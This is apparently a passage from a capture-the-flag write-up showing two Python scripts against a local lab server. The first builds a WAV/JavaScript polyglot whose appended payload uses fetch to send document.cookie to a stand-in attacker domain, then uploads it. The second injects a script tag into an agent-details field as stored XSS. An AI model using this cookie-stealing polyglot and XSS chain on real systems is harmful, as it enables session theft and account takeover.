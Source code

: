 ```python

            data =  sd.rec(frames_per_buffer, samplerate=file.samplerate, channels=channels, blocking=True)
            file.write(data)
    with open(file_path, "rb") as file:
        existing_data = file.read()
    with  open(file_path, "wb") as file:
        file.write(b'/*')
        file.write(existing_data)
    with open(file_path, "rb+") as file:
        file.seek(0, 2)  
        file.write(b"*/fetch('https://domain_you_control.com/?'+ document.cookie")   #payload here
 
    with open(file_path, "rb") as file:
        files = {"recording": (file_path, file, "audio/wave")}
        response = requests.post(upload_url, files=files)

    return response

x = recording_routine(api_url, identifier, token)
print(x.text)

```

it is not perfect but it did the trick (also note that it creates a wav file that should be deleted to run the script again)

after execution, the server will return the name of the file in the '/uploads' directory which we can use to source the script tags

```python
import requests
import json
import sys
url = f'http://127.0.0.1:1337/agents/details/{sys.argv[1]}/{sys.argv[2]}'

headers = {
    'Content-Type': 'application/json'
}

data = {
        "hostname": "",
        "platform": "",
    "arch": "<script src=uploads/file_name></script>"
}

response = requests.post(url, headers=headers, data=json.dumps(data), verify=False)

print(response.text)
```

This script is used to automate the detail update of the agent

